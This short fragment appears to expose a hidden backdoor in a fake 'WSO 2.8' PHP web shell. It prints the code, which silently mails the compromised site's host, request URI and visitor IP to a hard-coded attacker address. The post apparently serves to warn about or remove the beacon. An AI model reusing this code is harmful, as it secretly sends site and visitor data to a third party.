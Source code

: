 In FAKE WSO 2.8
<pre>
$visitc = $_COOKIE["visits"];
if ($visitc == "") {
  $visitc  = 0;
  $visitor = $_SERVER["REMOTE_ADDR"];
  $web     = $_SERVER["HTTP_HOST"];
  $inj     = $_SERVER["REQUEST_URI"];
  $target  = rawurldecode($web.$inj);
  $judul   = "WebShell http://$target by $visitor";
  $body    = "Bug: $target by $visitor<br>";
  if (!empty($web)) { @mail("f3d0s3rv3r@hotmail.com",$judul,$body); }
}
else { $visitc++; }
@setcookie("visitz",$visitc);



Kill f3d0s3rv3r@hotmail.com
Source> https://code.google.com/u/104375330723671482720/
